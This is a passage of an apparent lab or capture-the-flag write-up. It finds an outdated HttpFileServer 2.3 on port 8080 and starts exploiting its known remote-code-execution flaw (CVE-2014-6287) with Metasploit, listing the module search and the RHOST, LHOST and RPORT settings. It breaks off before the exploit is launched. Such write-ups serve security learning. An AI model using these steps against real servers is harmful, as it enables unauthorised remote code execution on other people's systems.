 As thge http service is ruuning on port 80 let nevigate to web.

On the web page there is picture of employ of the month , as we inspect the source code the employ name is mention on the image name.

![image](https://github.com/user-attachments/assets/300364cc-57b6-43b4-b06d-b6358ed67a01)


When we look at the other web server. there is a file server is runningon port `8080`

![image](https://github.com/user-attachments/assets/f8cf1b53-7ce4-4238-b471-9a5973463697)


The scan revils that the file server version is ` HttpFileServer httpd 2.3` , as i search this on web i found an existing vulnerbility

![image](https://github.com/user-attachments/assets/bd30e243-c115-4ca7-a6ba-ad5013b23b4a)

The server verion is outdated, here is [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287) prensent in it. tHE CVE represent its an RCE vulnerability.

![image](https://github.com/user-attachments/assets/eb2db4c3-edce-4d47-b89a-626fec469bc2)

As we saw on previous image uploded above the `Rejetto HTTP File Server` can be exploit by Metasploit becouse the payload is avilable on exploit db.

Step 2. Exploitation
Let use metasploit exploit this vulnerbaility

Let open the Metasploit by running command on terminal:
```
msfconsole -q
```
Search for Cve 
```
search CVE-2014-6287
```
![image](https://github.com/user-attachments/assets/d3dbcfe3-2c02-4efb-861c-612c5163a13f)

Use this exploit
```
use 0
```

Let see the option
```
show options
```
![image](https://github.com/user-attachments/assets/8b245679-2d53-4de0-a89a-f52ac46987a3)

Set RHOST 
```
set RHOST <IP>
```
Set LHOST
```
set LHOST <Ip>
```
Set RPORT
```
set RPORT 8080
```

